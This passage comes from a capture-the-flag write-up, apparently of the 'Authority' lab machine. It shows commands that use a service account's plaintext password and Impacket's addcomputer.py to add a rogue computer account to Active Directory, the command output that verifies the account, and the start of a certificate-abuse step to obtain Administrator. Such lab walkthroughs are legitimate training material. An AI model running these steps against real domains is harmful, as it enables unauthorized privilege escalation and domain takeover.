 The [addcomputer.py](https://tools.thehacker.recipes/impacket/examples/addcomputer.py) script from Impacket can be to used to add a new computer account in the domain, using the credentials of a domain user. The input format is `DOMAIN/username:password` followed by the computer name and computer password.

```bash
❯ addcomputer.py authority.htb/svc_ldap:'lDaP_1n_th3_cle4r!' -computer-name Abraxas -computer-pass Abraxas

Impacket for Exegol - v0.10.1.dev1+20230806.34223.faf17b2 - Copyright 2022 Fortra - forked by ThePorgs

[*] Successfully added machine account Abraxas$ with password Abraxas.
```

This can be verified using the `Get-ADComputer` command. The computer `Abraxas$` is present, but comparing it with the `Authority$` computer, it lacks the `DNSHostName` attribute.

```cmd
*Evil-WinRM* PS C:\Users\svc_ldap\Documents> Get-ADComputer Abraxas -properties dnshostname,serviceprincipalname

DistinguishedName : CN=Abraxas,CN=Computers,DC=authority,DC=htb
DNSHostName       :
Enabled           : True
Name              : Abraxas
ObjectClass       : computer
ObjectGUID        : d7c3dfee-2cb5-4f28-8afc-38913a60b83d
SamAccountName    : Abraxas$
SID               : S-1-5-21-622327497-3269355298-2248959698-11618
UserPrincipalName :

*Evil-WinRM* PS C:\Users\svc_ldap\Documents> Get-ADComputer Authority -properties dnshostname,serviceprincipalname

DistinguishedName    : CN=AUTHORITY,OU=Domain Controllers,DC=authority,DC=htb
DNSHostName          : authority.authority.htb
Enabled              : True
Name                 : AUTHORITY
ObjectClass          : computer
ObjectGUID           : 23c88ddb-c76e-41bd-8b75-dd04e08431cc
SamAccountName       : AUTHORITY$
serviceprincipalname : {HOST/AUTHORITY/htb.corp, ldap/AUTHORITY/ForestDnsZones.authority.htb, GC/AUTHORITY/htb.corp, ldap/AUTHORITY/DomainDnsZones.authority.htb...}
SID                  : S-1-5-21-622327497-3269355298-2248959698-1000
UserPrincipalName    :
```

The `certify-ad` or `certify.exe` tool can be employed to obtain a certificate as `Administrator`. Given that the newly added computer lacks the DNSHostname attribute, it needs to be specified explicitly when requesting a new certificate. Additionally, when specifying the username, it needs to be `Abraxas$` because authenticated and domain-joined accounts have a [`$` sign appended to samAccountName](https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/the-mysterious-case-of-the-a-k-a-dollar-sign-character-in-hybrid/ba-p/768326).
